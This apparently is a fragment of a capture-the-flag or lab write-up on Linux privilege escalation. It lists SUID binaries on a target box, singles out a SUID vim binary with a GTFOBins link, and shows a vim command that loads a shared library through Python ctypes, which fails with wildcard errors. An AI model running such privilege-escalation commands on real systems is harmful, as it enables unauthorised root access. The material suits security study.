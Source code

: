 -rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec

-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd

-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn

-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils

-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at

-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh

-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp

-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd

-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap

-rwsr-xr-x 1 root root 2675336 Mar 18  2020 /usr/bin/vim.basic

-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap

  

-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device

-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign

-rwsr-xr-x 1 root root 100760 Nov 22  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic

-rwsr-xr-x 1 root root 113528 Jul 10  2020 /usr/lib/snapd/snap-confine

-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1

-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper

-rwsr-xr-x 1 root root 26696 Mar  5  2020 /bin/umount

-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount

-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping

-rwsr-xr-x 1 root root 43088 Mar  5  2020 /bin/mount

-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su

So VIM

[https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)

  

Running any of the things causes it to bug out a bit

$ vim -c ':py3 import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'

E79: Cannot expand wildcardsm ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'

  

E79: Cannot expand wildcards

  

E79: Cannot expand wildcards

  

E79: Cannot expand wildcards
